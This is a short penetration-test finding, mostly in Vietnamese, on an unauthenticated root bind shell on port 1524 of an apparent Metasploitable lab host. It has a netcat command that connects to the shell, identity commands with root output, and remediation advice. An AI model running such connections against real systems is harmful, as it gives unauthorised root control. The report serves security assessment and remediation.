

# F01 — Unauthenticated Root Bind Shell

**Mức độ:** Critical  
**Target:** `192.168.77.20:1524`  
**CWE:** CWE-306 — Missing Authentication for Critical Function

## 1. Mô tả

Port 1524 cho phép truy cập shell từ xa với quyền `root` mà không yêu cầu xác thực.

## 2. Kiểm chứng (PoC)

**Kết nối bằng Netcat:**

```bash
nc -nv 192.168.77.20 1524
```

**Kiểm tra quyền truy cập:**

```bash
id
whoami
hostname
```

**Kết quả:**

```text
uid=0(root) gid=0(root) groups=0(root)
root
metasploitable
```

Đã xác nhận thực thi lệnh từ xa với quyền `root` mà không cần đăng nhập.

**Screenshot:**



**Output:** [F01-1524-bindshell.txt](../evidence/F01-1524-bindshell.txt)

## 3. Tác động

Cho phép thực thi lệnh với quyền `root`, có thể dẫn đến kiểm soát toàn bộ hệ thống.

## 4. Khắc phục

- Vô hiệu hóa và loại bỏ Bind Shell.
- Chặn truy cập trái phép đến port 1524.
- Kiểm tra và loại bỏ các dịch vụ không cần thiết.